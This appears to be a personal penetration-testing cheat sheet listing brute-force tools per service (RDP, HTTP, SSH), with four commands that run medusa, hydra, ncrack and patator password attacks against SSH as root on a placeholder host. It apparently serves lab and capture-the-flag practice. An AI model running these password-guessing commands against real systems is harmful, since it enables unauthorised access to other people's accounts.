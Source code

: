 # bruteforcing services
|service|tool|desc|
|---|---|---|
|rdp|crowbar|best RDP brute forcer|
|http|medusa|http auth|
|http|hydra|http post form|
|ssh|medusa|ippsec example vulnhub DC-9 - works great|
|ssh|ncrack|ippsec example vulnhub DC-9, in kali apt|

# command shortlist

# SSH
from hacktricks
```bash
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
hydra -l root -P passwords.txt [-t 32] <IP> ssh
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
patator ssh_login host=<ip> port=22 user=root 0=/path/passwords.txt password=FILE0 -x ignore:mesg='Authentication failed'
```




